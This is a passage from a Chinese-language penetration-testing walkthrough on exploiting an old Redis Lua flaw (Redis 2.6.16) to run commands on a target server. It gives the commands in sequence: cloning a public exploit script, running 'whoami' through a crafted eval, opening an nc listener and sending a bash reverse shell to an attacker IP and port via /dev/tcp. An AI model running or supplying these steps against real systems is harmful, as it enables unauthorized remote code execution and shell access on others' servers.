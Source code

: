 ```bash
git clone https://github.com/QAX-A-Team/redis_lua_exploit.git //下载漏洞利用脚本
```

测试环境：`centos6.5+redis 2.6.16`

脚本为 python2，运行脚本需先安装 `python2 redis` 组件

```bash
python2 -m pip install redis //为 python2 安装 redis 组件
```

修改脚本中 host 为目标 IP。  
[![](assets/1702372985-4b7731255cb6f07cd67162d9178a737f.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/25.png)

通过`redis-cli`连接到目标 redis，执行`eval "tonumber('whoami', 8)" 0`这段 lua，目标服务器就会执行 whoami 命令。

```bash
eval "tonumber('whoami', 8)" 0 //执行命令
```

此时我们使用回弹 shell 测试一下，先开启 nc 监听：

```bash
nc -lvnp 5678
```

再连接上数据库执行会弹语句：

```bash
eval "tonumber('/bin/bash -i >& /dev/tcp/<攻击机ip>/<端口信息> 0>&1', 8)" 0
```

